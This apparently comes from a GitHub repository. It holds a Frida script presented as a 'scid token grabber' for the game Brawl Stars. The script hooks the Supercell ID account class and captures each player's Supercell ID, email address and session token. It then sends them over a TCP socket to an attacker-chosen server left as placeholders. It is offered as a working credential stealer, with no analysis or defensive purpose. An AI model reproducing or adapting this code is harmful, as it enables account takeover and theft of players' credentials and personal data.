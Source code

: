 # Brawl-Stars-ScidToken
Just an easy scid token grabber for brawl stars that sent data to a TCP

// brawl stars scid token grabber template by Kxrimmmm
Java.perform(function () {
    var IdAccount = Java.use("com.supercell.id.scid_plugin.IdAccount");

    IdAccount.toString.overload().implementation = function () {
        var result = this.toString();
        var supercellId = this.supercellId.value;
        var email = this.email.value;
        var scidToken = this.scidToken.value;

        console.log(supercellId);
        console.log(email);
        console.log(scidToken);

        sendToTcpServer(supercellId, email, scidToken);

        return result;
    };

    // Function to send data over TCP
    function sendToTcpServer(supercellId, email, scidToken) {
        var Socket = Java.use("java.net.Socket");
        var InetAddress = Java.use("java.net.InetAddress");
        var OutputStream = Java.use("java.io.OutputStream");
        var BufferedWriter = Java.use("java.io.BufferedWriter");
        var OutputStreamWriter = Java.use("java.io.OutputStreamWriter");

        var serverAddress = "YOUR ADDRESS"; // Change this to your TCP server's address
        var serverPort YOUR PORT; // Change this to your TCP server's port

        // Create socket connection to the server
        var socket = Socket.$new(serverAddress, serverPort);
        var outputStream = socket.getOutputStream();
        var writer = BufferedWriter.$new(OutputStreamWriter.$new(outputStream, "UTF-8"));

        // Create the message to be sent
        var message = "Supercell ID: " + supercellId + "\nEmail: " + email + "\nToken: " + scidToken;

        // Send the message to the server
        writer.write(message);
        writer.flush();
        writer.close();
        outputStream.close();
        socket.close();

        console.log("Data sent to TCP server");
    }
}); 
